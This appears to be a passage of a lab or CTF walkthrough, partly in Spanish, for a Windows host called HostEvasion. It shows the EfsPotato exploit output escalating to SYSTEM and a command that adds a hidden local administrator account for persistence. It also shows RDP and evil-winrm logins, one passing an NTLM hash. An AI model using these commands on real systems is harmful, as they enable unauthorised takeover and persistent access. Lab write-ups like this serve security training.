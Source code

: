 

evader@HostEvasion:C:\xampp\htdocs# .\efs.exe whoami
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: HOSTEVASION\evader
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=1158390)
[+] Get Token: 872
[!] process with pid: 4816 created.
==============================
nt authority\system




Este comando ejecutado a través de efs.exe crea un usuario administrador local oculto o persistente, útil para mantener acceso al sistema sin necesidad de volver a explotar la vulnerabilidad.


.\efs.exe "cmd.exe /c net user user password@123 /add && net localgroup administrators user /add"




evader@HostEvasion:C:\xampp\htdocs# .\efs.exe "cmd.exe /c net user user password@123 /add && net localgroup administrators user /add"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: HOSTEVASION\evader
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=d8a210)
[+] Get Token: 848
[!] process with pid: 3780 created.
==============================
The command completed successfully.

The command completed successfully.




xfreerdp /u:user /p:password@123 /v:10.201.71.91 /dynamic-resolution




evil-winrm -i 10.201.71.91 -u Administrator -H 2dfe3378335d43f9764e581b856a662a


evil-winrm -i 10.201.71.91 -u user -p 'password@123'





-------------MANERA 2 HASHDUMP*-----------------------
